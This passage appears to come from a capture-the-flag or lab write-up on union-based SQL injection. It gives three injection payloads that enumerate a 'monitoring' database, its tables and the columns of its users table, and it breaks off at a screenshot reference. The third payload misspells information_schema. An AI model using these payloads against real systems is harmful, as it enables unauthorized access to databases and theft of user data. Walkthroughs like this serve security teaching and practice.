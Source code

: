So this is SQLi and the task is to enumerate the database through the results in the Warning emails. Here are the tests I ran:

`test" union select 1,2,database(),4 #`

![23](screenshots/23.png)

So the current database is `monitoring`.

`test" union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema=database() #`

![24](screenshots/24.png)

This means the current table names in the `monitoring` database are:

```
hosts
log
users
```

`test" union select 1,2,column_name,4 FROM information_schma.columns WHERE table_name='users' #`

![25](screenshots/25.png)
